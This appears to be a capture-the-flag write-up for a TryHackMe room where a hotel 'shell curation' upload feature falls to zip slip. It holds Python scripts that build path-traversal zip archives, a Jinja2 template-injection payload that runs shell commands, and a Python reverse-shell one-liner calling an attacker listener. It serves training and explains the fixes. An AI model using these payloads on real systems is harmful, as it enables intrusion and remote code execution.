








## Overview

**The Hollow Shell** ([TryHackMe](https://tryhackme.com/room/hh-thehollowshell-ddb582ac)) runs a Flask app behind Gunicorn for a fictional hotel's "shell curation" portal — guests upload found seashells as zip archives with a manifest describing them, and a background worker applies any automation hooks attached. The page source hands over default login creds without any digging. From there the whole path runs through the upload feature: a zip-slip-style flaw in how archive entries get extracted gives arbitrary file write anywhere on disk, and the automation-hooks feature turns that into code execution as soon as a Python script lands in the right spot.

---

## Enumeration

```text
user@parrot ~/Documents/temp % nmap -p- --min-rate 10000 -T4 10.114.161.236
Starting Nmap 7.95 ( https://nmap.org ) at 2026-08-06 14:19 UTC
Warning: 10.114.161.236 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.114.161.236
Host is up (0.29s latency).
Not shown: 59846 closed tcp ports (conn-refused), 5687 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 59.01 seconds
```

Nmap's default-service guess of `upnp` on port 5000 isn't worth trusting on its own — that's a common high port for all kinds of things. A version scan clears it up:

```text
sudo nmap -p5000 -sV -O 10.114.161.236
Starting Nmap 7.95 ( https://nmap.org ) at 2026-08-06 14:22 UTC
Nmap scan report for 10.114.161.236
Host is up (0.29s latency).

PORT     STATE SERVICE VERSION
5000/tcp open  http    Gunicorn
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.19 (93%), Linux 4.15 (93%), Linux 5.4 (93%), Asus RT-N10 router or AXIS 211A Network Camera (Linux 2.6) (91%), Linux 2.6.18 (91%), Linux 4.10 (91%), Linux 2.6.16 (91%), HP P2000 G3 NAS device (91%), Android 10 - 12 (Linux 4.14 - 4.19) (90%), CyanogenMod 11 (Android 4.4.4) (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 3 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.47 seconds
```

Gunicorn is a Python WSGI server, so whatever's behind port 5000 is a Python web app — Flask, most likely, given how these rooms usually go.

Viewing the page source on the index turns up more than expected — a leftover HTML comment with default login creds baked right in:




Logging in drops us on a "Room Service / Shoreline Display" dashboard:



The feature on offer: upload a "shell" as a `.zip`, which must contain a `shell.json` manifest listing a `name` and, optionally, an `assets` list of files (allowed types: `png jpg gif svg css json`). The blurb about "automation hooks" is doing a lot of work here — it says the theme worker applies these for us shortly after the shell "comes ashore," without anyone touching the file by hand. That reads as a background job executing something on our behalf later, worth keeping in mind once a write primitive is in hand.

---

## Initial Access — from Zip Slip to Remote Code Execution

### Feeling out the manifest check

First pass: pack an empty `{}` as `shell.json` and see what the validator complains about.


Fair enough — add the missing field:

```json
{
    "name": "shell"
}
```


The response gives away the extraction path: `shells/<random-id>/`. Worth confirming the manifest actually lands where the app says it does:

```text
http://10.112.130.29:5000/shells/bc317c6a11a0/shell.json
```



It's there, byte for byte what we uploaded.

### First zip slip attempt

Zip slip is the classic name for this: an archive extractor that doesn't sanitize entry names before writing them to disk, so a name like `../../etc/whatever` walks the write path straight out of the intended directory. Since every shell lands under `/shells/<id>/`, the obvious first move is renaming the manifest entry itself to `../shell.json` and seeing if it escapes one level up.



No good — the app checks for a literal `shell.json` entry in the archive listing before doing anything else, so renaming the manifest just makes it invisible to that check. Dead end for renaming the manifest directly, but it does tell us something useful: the check only confirms *a* file named `shell.json` exists somewhere in the listing — it says nothing about how every other entry in the same archive is named. That leaves room to keep a valid `shell.json` in place and put the traversal on a second file instead.

### Traversal on the asset instead

New manifest, this time declaring a jpg asset:

```json
{
    "name": "shell",
    "assets": ["shell.jpg"]
}
```

Uploaded flat first, no traversal yet, just to confirm the asset path behaves normally:



```text
http://10.112.130.29:5000/shells/861e08c2df2a/shell.json
```



Manifest and asset both land in the same per-shell folder, as expected. Now rename the `shell.jpg` entry itself (not the manifest) to `../shell.jpg` and re-upload. If the extraction path really is taken straight from the archive entry name, the jpg should end up one directory above the shell folder instead of inside it.

After the upload, `shell.json` shows up in the new folder but `shell.jpg` doesn't — and the parent-level path I guessed for it comes back 404:



Inconclusive by itself, but it lines up with the theory: the destination path is built from each archive member's own name, not read out of the manifest's `assets` list, so `../shell.jpg` isn't landing in the shell folder — it's going somewhere else, and my guess at where just happened to miss.

We already know `/static/style.css` exists on this app, so `/static` is the actual target worth reaching. Renamed the jpg entry to `../../static/shell.jpg` and re-uploaded.

It didn't land. Nothing new under `/static`.

Turned out the problem was upstream of the app entirely. The GUI file manager I was using to rename the extracted file before re-zipping it doesn't allow a literal `/` in a filename — for the obvious OS reason — and silently substitutes a lookalike Unicode character instead: `⁄` (U+2044, "fraction slash"). Visually near-identical in most fonts, a completely different byte value. Every traversal attempt up to this point had probably been packing that fake slash instead of a real one, which would explain the earlier 404 too — not worth re-testing since the fix applies going forward regardless.

Building the zip programmatically sidesteps the filesystem entirely — `zipfile` writes whatever byte string you hand it as the entry name, real slashes included:

```python
import zipfile, json

with open("shell.jpg", "rb") as f:
    jpg_bytes = f.read()

z = zipfile.ZipFile("shell.zip", "w")
z.writestr("shell.json", json.dumps({"name": "shell", "assets": ["shell.jpg"]}))
z.writestr("../../static/shell.jpg", jpg_bytes)
z.close()

with zipfile.ZipFile("shell.zip") as zz:
    print(zz.namelist())
```

Uploaded the resulting `shell.zip`, and this time it landed:


The browser can't render it — the jpg content is just placeholder bytes, not a real image — but the request confirms the file exists at `/static/shell.jpg`. That's the whole bug: path traversal in zip entry names gives arbitrary file write to anywhere the Gunicorn worker's user can write, with content fully under our control.

> Checking that a required filename is *present* somewhere in an archive listing — like this app does for `shell.json` — says nothing about what every other entry in the same archive is named. Zip extraction needs each entry's resolved absolute path checked against the intended extraction root before it's written, not just a presence check on one expected name.
{: .prompt-tip }

### A dead end: overwriting the dashboard template

Confirmed arbitrary file write is a strong primitive on a Flask app, but not every path is equally useful. Overwriting application source felt risky — get it wrong and the app just breaks — so before touching `app.py` directly I looked for something that gets read and executed on its own rather than served as-is.

Flask uses Jinja2 by default and templates live under `templates/`. If I could land a file there, classic SSTI would let me read `app.py` and map out the app's structure:

```html
<!doctype html>
<html lang="en">
<head><meta charset="utf-8"><title></title></head>
<body>
<pre>
{{ cycler.__init__.__globals__.os.popen('cat app.py').read() }}
</pre>
</body>
</html>
```

Saved as `dashboard.html`, packed with entry name `../../templates/dashboard.html`. Captured the request in Burp first — overwriting the live dashboard template meant losing the normal UI the moment it worked, and I wanted to be able to replay it.

First try, the manifest's `assets` field still said `dashboard.html`:

```text
Shell rejected: asset type not allowed: dashboard.html
```

So the allowed-extensions check runs against the manifest's `assets` list, same blind spot as the `shell.json`-presence check — it has no idea what other raw entries are sitting in the zip. Set `assets` back to `["shell.jpg"]` while keeping the real payload entry named `../../templates/dashboard.html`:

```python
import zipfile, json

with open("dashboard.html", "rb") as f:
    bytes = f.read()

z = zipfile.ZipFile("shell.zip", "w")
z.writestr("shell.json", json.dumps({"name": "shell", "assets": ["shell.jpg"]}))
z.writestr("../../templates/dashboard.html", bytes)
z.close()
```

This time the upload went through with no rejection — but the dashboard kept rendering exactly as before, no `{{ }}` evaluated, no error either. Tried a couple of variations on the payload. Best guess: either Gunicorn was serving a cached or precompiled template rather than re-reading it off disk, or the worker's write permissions on `templates/` specifically are tighter than on `static/`. Didn't chase it further — parked it and moved to the feature the app was already advertising as running something automatically.

### RCE via automation hooks

Back to the line from the upload page: *"the theme worker applies these for you shortly after the shell comes ashore."* That reads as a background job picking files up from somewhere and running them — and Python wasn't in the allowed asset-type list for a reason, presumably because dropping a script somewhere the worker executes is exactly the intended attack.

No hint anywhere at the actual folder name, so it came down to guessing — `hooks` felt like the obvious first shot, ahead of alternatives like `queue`, `jobs`, `tasks`, or `cron`.

Payload: a Python reverse shell, generated from [revshells.com](https://www.revshells.com/) and pointed at my listener:

```python
import os,pty,socket;s=socket.socket();s.connect(("<x.x.x.x>",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")
```

Packed with entry name `../../hooks/shell.py` alongside a valid `shell.json`/`shell.jpg` pair, `nc` listening on the other end, uploaded — and it landed on the first guess:



```text
$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.112.130.29 34500
$ whoami
roomservice
```

Whatever picks files up from `hooks/` runs them with no sandboxing at all — same user as the web app, and no extension allow-list applied outside the upload-time check we'd already routed around.

Flag was sitting in the home directory, no privilege escalation needed:

```text
roomservice@tryhackme-2404:/var/www/conch$ cd ~
roomservice@tryhackme-2404:~$ ls
flag.txt
roomservice@tryhackme-2404:~$ cat flag.txt
THM{...}
```

> **Flag**: `THM{...}`, read straight from `roomservice`'s home directory.
{: .prompt-info }

---

## Conclusion

1. **Credentials in the page source** — a default login sat in an HTML comment on the index page, no enumeration needed.
2. **Insufficient zip-entry validation** — the app checks that a `shell.json` *exists* in the archive listing and that declared asset types are allowed, but never validates what every entry in the zip is actually named. A crafted entry name with `../` in it writes wherever the Gunicorn worker's user can write.
3. **Unsandboxed automation hooks** — a background worker picks up files from a hooks directory and executes them with no restriction on content, turning the file-write primitive straight into RCE as soon as a Python payload lands in the right folder.

### Tools used

| Stage | Tools |
|-------|-------|
| Recon | `nmap` |
| Manual testing | Browser dev tools, Burp Suite |
| Payload crafting | Python (`zipfile`), [revshells.com](https://www.revshells.com/) |
| Foothold | `nc` |
